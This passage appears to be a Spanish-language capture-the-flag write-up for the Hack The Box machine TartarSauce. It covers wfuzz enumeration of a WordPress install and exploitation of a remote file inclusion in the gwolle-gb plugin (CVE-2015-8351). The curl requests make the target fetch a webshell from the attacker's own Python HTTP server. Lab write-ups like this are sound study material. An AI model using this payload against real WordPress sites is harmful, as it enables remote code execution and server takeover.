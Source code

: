 ```console
└─$ wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.88/FUZZ/" -t 200
000001954:   403        11 L     32 W       298 Ch      "webservices"
000000070:   403        11 L     32 W       292 Ch      "icons"
└─$ wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.88/webservices/FUZZ/" -t 200
000000780:   200        197 L    567 W      11237 Ch    "wp"
└─$ wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -u "http://10.10.10.88/webservices/wp/FUZZ/" -t 200
000000773:   403        11 L     32 W       313 Ch      "wp-includes"
000000228:   200        0 L      0 W        0 Ch        "wp-content"
000007167:   302        0 L      0 W        0 Ch        "wp-admin"
```

Sin duda estamos ante un worpdress. 
Una de las cosas a tener en cuenta al explotar los wordpress son el tema de los "plugins" (wp-content/plugins)

Hay un diccionario específico para ello:

```console
└─$ wfuzz --hc=404 -w /usr/share/seclists/Discovery/Web-Content/CMS/wp-plugins.fuzz.txt -u "http://10.10.10.88/webservices/wp/FUZZ/" -t 200

000000468:   200        0 L      0 W        0 Ch        "wp-content/plugins/akismet/"
000004504:   200        0 L      0 W        0 Ch        "wp-content/plugins/gwolle-gb/"
000004593:   500        0 L      0 W        0 Ch        "wp-content/plugins/hello.php/"
```

Antes de entrar a fondo con los plugins, si visitamos "http://10.10.10.88/webservices/wp/" nos encontramos con
una web mal formateada, eso suele pasar por un problema del dns. SI hacemos un **curl** para ver el código fuente
encontramos "src='http://tartarsauce.htb/"
![tartar4](https://user-images.githubusercontent.com/96772264/208294347-d53247fb-5457-4707-b46d-52a35a3ca396.PNG)
![tartar5](https://user-images.githubusercontent.com/96772264/208294351-e2055a2c-12a4-4e50-b0c8-bb541e751c87.PNG)

Aun asi no hay nada interesante.

Si buscamos los dos plugins (akismet y gwolle) en searchsploit enctrontramos que askismet sufre de un xss (no
interesa por ahora) y que gwolle tiene un RFI (CVE-2015-8351)

Nos dice que pongamos un archivo llamado "wp-load.php" en esta ruta:

```/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://[hackers_website]```

Podemos aprovehcar el php7 de antes simplemente renombrandolo: ```└─$ mv cmd.php7 wp-load.php```

```console
└─$ curl -s -X GET 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/wp-load.php'
└─$ sudo python3 -m http.server 80
10.10.10.88 - - [17/Dec/2022 11:11:57] "GET /wp-load.phpwp-load.php HTTP/1.0" 404 -
└─$ curl -s -X GET 'http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.16/
<pre></pre>
```
